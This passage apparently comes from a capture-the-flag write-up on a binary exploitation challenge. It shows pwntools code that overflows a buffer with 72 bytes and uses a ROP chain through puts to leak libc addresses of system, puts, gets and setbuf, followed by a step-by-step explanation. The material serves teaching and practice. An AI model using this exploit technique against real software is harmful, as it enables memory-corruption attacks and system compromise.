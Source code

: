 ```py
    p.sendlineafter(b'(1, 2, or 3): ', b'2')
```

Then we have the code that leaks gets(), puts(), setbuf(), and system() from libc:

```py

    p.sendlineafter(b'(1, 2, or 3): ', b'1')

    system_address = leak(p, 'system')

    log.info(f"Leaked system address: {hex(system_address)}")

    puts_address = leak(p, 'puts')

    log.info(f"Leaked puts address: {hex(puts_address)}")

    gets_address = leak(p, 'gets')

    log.info(f"Leaked gets address: {hex(gets_address)}")

    setbuf_address = leak(p, 'setbuf')

    log.info(f"Leaked setbuf address: {hex(setbuf_address)}")
```

This is what the leak function looks like:

```py
def leak(p, function):

    payload = b'A' * 72

    payload += p64(rop.rdi[0])

    payload += p64(elf.got[function])

    payload += p64(elf.plt.puts)

    payload += p64(elf.sym.vuln)

    p.sendlineafter(b'payload: ', payload)

    p.recvline()
    p.recvline()
    
    address = u64(p.recvline().strip().ljust(8, b'\x00'))

    return address
```

How this works is:

1. Fill up buffer with 72 garbage bytes to overwrite everything up until rip. Find this offset using the trick shown in the Buffer Overflow writeup
2. using pwntools rop to find all of the rop gadgets. Then rop.rdi[0] will take the first "pop rdi; ret" gadget, and it will return the address of that. So this puts a "pop rdi; ret" on the stack.
3. elf.got[function] is used to put the value of the got table for a specific address into rdi. The pop rdi pops the top of the stack which is the function address inside of the got.
4. The puts function is then called with rdi as the address in the got table.
5. The rop ends with the vulnerable function being called once again to repeat the cycle over again.
